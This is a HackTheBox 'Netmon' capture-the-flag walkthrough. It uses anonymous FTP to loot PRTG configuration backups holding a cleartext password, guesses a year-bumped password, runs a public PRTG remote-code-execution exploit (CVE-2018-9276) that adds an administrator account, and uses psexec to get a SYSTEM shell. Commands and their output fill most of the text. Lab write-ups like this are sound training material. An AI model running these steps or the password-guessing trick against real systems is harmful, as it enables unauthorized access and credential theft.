









HackTheBox - Netmon [no metasploit]
Reconnaissance
export ip=10.10.10.152
Nmap
Starting with a Nmap TCP scan to discover used ports and services behind, with our usual options:
-sCruns defaults Nmap scripts-sVtries to identify the software versions-oAwill output the results in files prefixed by nmap_tcp and using the formats xml, nmap and gnmap-p-will scan all ports and not the 1000 usual ones
sudo nmap -O -sV -sC -oA nmap_tcp -p- $ip
Nmap scan report for 10.10.10.152
Host is up (0.043s latency).
Not shown: 65522 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19 11:18PM 1024 .rnd
| 02-25-19 09:15PM <DIR> inetpub
| 07-16-16 08:18AM <DIR> PerfLogs
| 02-25-19 09:56PM <DIR> Program Files
| 02-02-19 11:28PM <DIR> Program Files (x86)
| 02-03-19 07:08AM <DIR> Users
|_02-25-19 10:49PM <DIR> Windows
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/8%OT=21%CT=1%CU=41247%PV=Y%DS=2%DC=I%G=Y%TM=5FA85EA
OS:0%P=x86_64-unknown-linux-gnu)SEQ(SP=102%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=
OS:S%TS=A)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%
OS:O5=M54DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W
OS:6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=
OS:O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%
OS:DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80
OS:%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=80%CD=Z)
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 4m54s, deviation: 0s, median: 4m53s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-11-08T21:14:41
|_ start_date: 2020-11-08T21:01:14
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 333.90 seconds
UDP scans (with the -sU flag) in the background:
sudo nmap -sU -oA nmap_udp_light $ip
Nmap scan report for 10.10.10.152
Host is up (0.045s latency).
Not shown: 993 closed ports
PORT STATE SERVICE
123/udp open|filtered ntp
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
500/udp open|filtered isakmp
4500/udp open|filtered nat-t-ike
5353/udp open|filtered zeroconf
5355/udp open|filtered llmnr
Nmap done: 1 IP address (1 host up) scanned in 1087.66 seconds
sudo nmap -sU -oA nmap_udp -p- $ip
Strategy
- Start with the FTP anonymous access because we seem to have read access and we could get user.txt from there
- The website is running a software named PRTG Network Monitor: try default credentials and look for vulnerabilities.
FTP - port 21
Anonymous Access
The anonymous access allows us to browse the whole file system (C:\) as an unprivileged user (we don’t have access to the Administrator directory). We also get some free information about the OS: Windows_NT
[ bamboozled-goose /mnt/hgfs/netmon ]# ftp $ip
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:moo): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19 11:18PM 1024 .rnd
02-25-19 09:15PM <DIR> inetpub
07-16-16 08:18AM <DIR> PerfLogs
02-25-19 09:56PM <DIR> Program Files
02-02-19 11:28PM <DIR> Program Files (x86)
02-03-19 07:08AM <DIR> Users
02-25-19 10:49PM <DIR> Windows
226 Transfer complete.
ftp> ls Users
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19 10:44PM <DIR> Administrator
02-02-19 11:35PM <DIR> Public
226 Transfer complete.
ftp> cd Administrator
550 Access is denied.
Note that we can’t upload files:
ftp> put test.txt
200 PORT command successful.
550 Access is denied.
user.txt
That shell happens to allow access to C:/Users/Public:
ftp> cd Users/Public
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19 07:05AM <DIR> Documents
07-16-16 08:18AM <DIR> Downloads
07-16-16 08:18AM <DIR> Music
07-16-16 08:18AM <DIR> Pictures
02-02-19 11:35PM 33 user.txt
07-16-16 08:18AM <DIR> Videos
226 Transfer complete.
ftp> get user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.0399 seconds (826 bytes/s)
That was a low-effort user.txt! What’s next?
Website - port 80
Website

Default Credentials
Looking for PRTG default credentials gives us a link to PRTG’s website:

Alright, let’s tryprtgadmin:prtgadmin then:

Default credentials didn’t work, let’s move on and check the vulnerabilities.
Vulnerabilities
The Nmap scan gives us the version and the software used by the website:
Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
Looking for vulnerability affecting PRTG network monitor gives us:
- PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)
- PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution
The first exploit is a DoS is not interesting, the second one on the other hand… Remote Code Execution, this is more my jam.
Let’s get a copy of that exploit and see what it needs:
[ bamboozled-goose /mnt/hgfs/netmon ]# searchsploit -m 46527
Exploit: PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution
URL: https://www.exploit-db.com/exploits/46527
Path: /usr/share/exploits/exploit-db/exploitdb/exploits/windows/webapps/46527.sh
File Type: Bourne-Again shell script, ASCII text executable, with very long lines, with CRLF line terminators
Copied to: /mnt/hgfs/netmon/46527.sh
Alright, let’s run it:
[ bamboozled-goose /mnt/hgfs/netmon ]# ./46527.sh
bash: ./46527.sh: /bin/bash^M: bad interpreter: No such file or directory
Buh. That file uses DOS style carriage return ^M, which Linux doesn’t understand. Windows newlines are \r\n while Linux uses \n. You can use cat -v to print the file with those pesky ^M visible:
$ cat -v 46527.sh
#!/bin/bash^M
echo -e "\n\e[00;33m[+]#########################################################################[+] \e[00m"^M
echo -e "\e[00;32m[*] Authenticated PRTG network Monitor remote code execution [*] \e[00m"^M
echo -e "\e[00;33m[+]#########################################################################[+] \e[00m"^M
[...]
To get rid of DOS return carriage and replace them with Linux return carriage, you can use this sed command:
sed -e "s/\r//g" 46527.sh > 46527_fixed.sh
Enable script execution and we can now run the fixed script:
$ chmod +x 46527_fixed.sh

Okay, so now we have the usage. But that exploits needs the cookie of an existing account to work, and we already tried prtgadmin:prtgadmin without success. How are we going to find another account…
Hunting for credentials
Well. Remember how we could any file with the anonymous FTP? Where does PRTG stores his user accounts? Can we access them?
The knowledge base of PRTG has all kind of answers for us! Like an article on How and where PRTG stores his data. This tells us that users are stored in PRTG Configuration.dat.

And the Data Directory is one of those four paths:

Let’s check if we have access from the FTP, this time with the -i option to not have to answer y to each file we download:
$ ftp -i $ip
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:moo): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> cd "programdata\Paessler\PRTG Network Monitor"
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
11-10-20 04:10PM <DIR> Configuration Auto-Backups
11-10-20 03:28PM <DIR> Log Database
02-02-19 11:18PM <DIR> Logs (Debug)
02-02-19 11:18PM <DIR> Logs (Sensors)
02-02-19 11:18PM <DIR> Logs (System)
11-10-20 03:28PM <DIR> Logs (Web Server)
11-10-20 03:34PM <DIR> Monitoring Database
02-25-19 09:54PM 1189697 PRTG Configuration.dat
02-25-19 09:54PM 1189697 PRTG Configuration.old
07-14-18 02:13AM 1153755 PRTG Configuration.old.bak
11-10-20 04:10PM 1671119 PRTG Graph Data Cache.dat
02-25-19 10:00PM <DIR> Report PDFs
02-02-19 11:18PM <DIR> System Information Database
02-02-19 11:40PM <DIR> Ticket Database
02-02-19 11:18PM <DIR> ToDo Database
226 Transfer complete.
Let’s download all we can with mget *
ftp> mget *
local: PRTG Configuration.dat remote: PRTG Configuration.dat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 0.58 seconds (1.96 Mbytes/s)
local: PRTG Configuration.old remote: PRTG Configuration.old
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 0.645 seconds (1.76 Mbytes/s)
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 0.603 seconds (1.83 Mbytes/s)
local: PRTG Graph Data Cache.dat remote: PRTG Graph Data Cache.dat
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 546 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
1671119 bytes received in 0.814 seconds (1.96 Mbytes/s)
Can we find the password for prtgadmin in those files we just looted?
[ bamboozled-goose /mnt/hgfs/netmon/PRTG ]# rg prtgadmin
PRTG Configuration.old.bak
141: <!-- User: prtgadmin -->
29166: prtgadmin
PRTG Configuration.dat
29942: prtgadmin
PRTG Configuration.old
29942: prtgadmin
And look, in that PRTG Configuration.old.bak file:
<dbpassword>
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
Hey look, a password that doesn’t look like it’s encrypted!
login: prtgadmin
password: PrTg@dmin2018
Annnnnnnnnd:

It’s that familiar “failed login” page again!
Here, I went lost on several other stuff, thinking this was the wrong path. After a while, I checked writeups to see where I went wrong… And… I didn’t. It’s just you need to “update” the leaked password… Sheesh.
login: prtgadmin
password: PrTg@dmin2019
And this lets us in:

Back to our exploit
We can now grab the cookie we needed to run the exploit!
I used the Firefox Web developer tools to copy the cookie. Open the storage tab, clicking on the cookie should open the data panel on the right and from there you can just right click on the cookie content and select copy.

Content of the cookie:
OCTOPUS1813713946:"ezc0MzQ4NTRBLTUyMUQtNDc3My1CRTJDLTBGRDBCQUM2OUMyRX0%3D"
Now, let’s we can finally run the exploit from earlier:
[ bamboozled-goose /mnt/hgfs/netmon/PRTG ]# ./46527_fixed.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=ezc0MzQ4NTRBLTUyMUQtNDc3My1CRTJDLTBGRDBCQUM2OUMyRX0%3D"
[+]#########################################################################[+]
[*] Authenticated PRTG network Monitor remote code execution [*]
[+]#########################################################################[+]
[*] Date: 11/03/2019 [*]
[+]#########################################################################[+]
[*] Author: https://github.com/M4LV0 lorn3m4lvo@protonmail.com [*]
[+]#########################################################################[+]
[*] Vendor Homepage: https://www.paessler.com/prtg [*]
[*] Version: 18.2.38 [*]
[*] CVE: CVE-2018-9276 [*]
[*] Reference: https://www.codewatch.org/blog/?p=453 [*]
[+]#########################################################################[+]
# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'
[+]#########################################################################[+]
[*] file created
[*] sending notification wait....
[*] adding a new user 'pentest' with password 'P3nT3st'
[*] sending notification wait....
[*] adding a user pentest to the administrators group
[*] sending notification wait....
[*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
It works and should have created a user pentest with the password P3nT3st!.
Shell as system
To get a shell, we can use psexec.py which is bundled with impacket.
[ bamboozled-goose /mnt/hgfs/netmon ]# psexec.py pentest:'P3nT3st!'@10.10.10.152
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
Buh. Reset the machine and try the exploit again…
[ bamboozled-goose /mnt/hgfs/netmon ]# psexec.py pentest:'P3nT3st!'@10.10.10.152
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file RydLqDhH.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service rIla on 10.10.10.152.....
[*] Starting service rIla.....
[!] Press help for extra shell commands Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
That’s better! Now, grab the flag:
C:\Users\Administrator\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 684B-9CE8
Directory of C:\Users\Administrator\Desktop
02/02/2019 11:35 PM <DIR> .
02/02/2019 11:35 PM <DIR> ..
02/02/2019 11:35 PM 33 root.txt
1 File(s) 33 bytes
2 Dir(s) 12,049,416,192 bytes free
I was curious about the OS, so I also ran systeminfo:
C:\Users\Administrator\Desktop>systeminfo
Host Name: NETMON
OS Name: Microsoft Windows Server 2016 Standard
OS Version: 10.0.14393 N/A Build 14393
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Server
OS Build Type: Multiprocessor Free
Registered Owner: Windows User
Registered Organization:
Product ID: 00376-30821-30176-AA362
Original Install Date: 2/3/2019, 7:05:45 AM
System Boot Time: 11/11/2020, 3:05:20 AM
System Manufacturer: VMware, Inc.
System Model: VMware Virtual Platform
System Type: x64-based PC
Processor(s): 1 Processor(s) Installed.
[01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory: C:\Windows
System Directory: C:\Windows\system32
Boot Device: \Device\HarddiskVolume1
System Locale: en-us;English (United States)
Input Locale: en-us;English (United States)
Time Zone: (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory: 4,095 MB
Available Physical Memory: 3,301 MB
Virtual Memory: Max Size: 4,799 MB
Virtual Memory: Available: 4,051 MB
Virtual Memory: In Use: 748 MB
Page File Location(s): C:\pagefile.sys
Domain: WORKGROUP
Logon Server: N/A
Hotfix(s): 2 Hotfix(s) Installed.
[01]: KB3199986
[02]: KB3200970
Network Card(s): 1 NIC(s) Installed.
[01]: Intel(R) 82574L Gigabit Network Connection
Connection Name: Ethernet0
DHCP Enabled: No
IP address(es)
[01]: 10.10.10.152
[02]: fe80::b978:7945:582d:5ff9
[03]: dead:beef::b978:7945:582d:5ff9
Hyper-V Requirements: A hypervisor has been detected. Features required for Hyper-V will not be displayed.
Takeaways
- If you find a password in an old backup: try updating the year (If you find P@ssw0rd2017, try P@ssw0rd2018, P@ssw0rd2019, …)
- Leaving backup of configurations with passwords in clear is a bad thing, just remove them
- While you’re there, no one needs a free access to your FTP to read the whole filesystem.